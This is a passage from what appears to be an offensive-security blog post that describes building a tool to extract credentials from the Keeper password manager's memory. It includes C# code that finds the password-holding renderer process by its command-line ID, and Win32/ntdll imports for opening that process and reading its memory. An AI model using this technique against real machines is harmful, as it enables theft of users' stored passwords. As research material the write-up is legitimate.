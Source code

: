 I did spot that <b>Keeper</b> almost always starts the password containing child process with `--renderer-client-id=5`.

![Oops...](../assets/img/target-pid.png)

This can alter if the target child process crashes and the parent does not terminate, so felt it best to include a check for `7` as well:

```csharp
    public static string GetCommandLine(this Process process)
    {
        if (process is null || process.Id < 1)
        {
            return "";
        }
        // Construct LINQ query to get process command line
        string query = $@"SELECT CommandLine FROM Win32_Process WHERE ProcessId = {process.Id}";

        // Create Object Searcher and get then return command line
        using (var searcher = new ManagementObjectSearcher(query))
        using (var collection = searcher.Get())
        {
            var managementObject = collection.OfType<ManagementObject>().FirstOrDefault();
            return managementObject != null ? (string)managementObject["CommandLine"] : "";
        }
    }
```

Moving onto the next step, we need to be able to make all our needed Win32 API calls. To accomodate this I created the necessary DLL Imports. 

Also, no I did not go the extra mile and make use of D/Invoke or Syscalls, I have some love for my free time.

We can now make a call to get a handle to the target process with both virtual Memory read and query information permissions. Using this handle we can perform the needed operations to extract potential credential data.

```csharp
    [DllImport("kernel32.dll")]
    public static extern IntPtr OpenProcess(uint dwDesiredAccess, [MarshalAs(UnmanagedType.Bool)] bool bInheritHandle, int dwProcessId);

    [DllImport("kernel32.dll")]
    public static extern bool CloseHandle(IntPtr hObject);

    [DllImport("ntdll.dll")]
    public static extern uint NtReadVirtualMemory(IntPtr ProcessHandle, IntPtr BaseAddress, byte[] Buffer, UInt32 NumberOfBytesToRead, IntPtr NumberOfBytesRead);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern int VirtualQueryEx(IntPtr hProcess, IntPtr lpAddress, out MEMORY_BASIC_INFORMATION lpBuffer, uint dwLength);

```